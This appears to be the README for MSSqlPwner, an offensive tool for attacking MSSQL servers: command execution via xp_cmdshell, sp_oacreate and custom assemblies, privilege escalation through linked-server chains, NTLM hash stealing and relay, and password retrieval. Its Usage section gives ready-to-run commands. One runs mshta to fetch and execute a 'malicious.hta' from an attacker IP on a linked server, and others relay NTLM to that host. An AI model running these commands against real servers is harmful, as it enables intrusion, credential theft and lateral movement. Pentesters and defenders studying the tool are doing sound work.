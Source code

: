# MSSqlPwner
<p align="center">
 <img src="https://github.com/ScorpionesLabs/MSSqlPwner/blob/main/logo.PNG?raw=true">
</p>
MSSqlPwner is an advanced and versatile pentesting tool designed to seamlessly interact with MSSQL servers and based on Impacket.
The MSSqlPwner tool empowers ethical hackers and security professionals to conduct comprehensive security assessments on MSSQL environments.

With MSSqlPwner, users can execute custom commands through various methods, including custom assembly, `xp_cmdshell`, and `sp_oacreate(Ole Automation Procedures)` and much more. 

The tool starts with recursive enumeration on linked servers and gather all the possible chains.

Also, the MSSqlPwner tool can be used for NTLM relay capabilities, utilizing functions such as `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, and command execution.

This tool provide opportunities for lateral movement assessments and exploration of linked servers.

If the authenticated MSSQL user does not have permission to execute certain operations, the tool can find a chain that might allow the execution. 
For example, it can send a query to a linked server that returns back with a link to the authenticated MSSQL service with higher permissions.
The tool also supports recursive querying via links to execute queries and commands on otherwise inaccessible linked servers directed from the compromised MSSQL service.


This tool is supported by multiple authentication methods and described below.

## Disclaimer
This tool is designed for security professionals and researchers for testing purposes only and should not be used for illegal purposes.

## Functionalities:
1. Utilities:
- `interactive`: allow to use the tool interactively with live execution.
- `enumerate`: enumerate the linked servers and the chains.
- `get-chain-list` get the list of the chains.
- `get-link-server-list` get the list of the linked servers.
- `set-chain` Set chain ID (For interactive-mode only!)
- `set-link-server` Set link server (For interactive-mode only!)
- `get-rev2self-queries` retrieve queries to revert to SELF (For interactive-mode only!).
- `rev2self` revert to SELF (For interactive-mode only!).

2. Command Execution: Execute commands using the following functions:
- `xp_cmdshell` Execute commands using `xp_cmdshell` on local server or on linked servers
- `sp_oacreate` Execute commands using Ole Automation Procedure technique on local server or on linked servers

3. Password Retrieval:
- `retrive-password` Password retrieval from the linked server.

4. NTLM Hash Stealing and Relay: Issue NTLM relay or steal NTLM hashes using the following functions:
- `xp_dirtree` NTLM stealing using directory listing on local server or on linked servers
- `xp_subdirs` NTLM stealing using subdirectory listing on local server or on linked servers
- `xp_fileexist` NTLM Stealing using file existence check on local server or on linked servers

5. Procedure execution using custom assembly and stored procedures:
- `execute_command` procedure executing commands using custom assembly on local server or on linked servers
- `run_query` procedure executing queries using custom assembly on local server or on linked servers
- `run_query_system_service` procedure executing queries using custom assembly on local server or on linked servers as system user
6. Direct Queries 
- `direct_query` Execute direct queries on local server or on linked servers


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.

## Installation
```
git clone https://github.com/ScorpionesLabs/MSSqlPwner
cd MSSqlPwner
pip3 install -r requirements.txt
python3 MSSqlPwner.py
```

## Usage
```
# Interactive mode
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth interactive


# Executing custom assembly on the current server with windows authentication and executing hostname command 
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 5
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 5 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth direct_query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
python3 MSSqlPwner.py corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password
```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.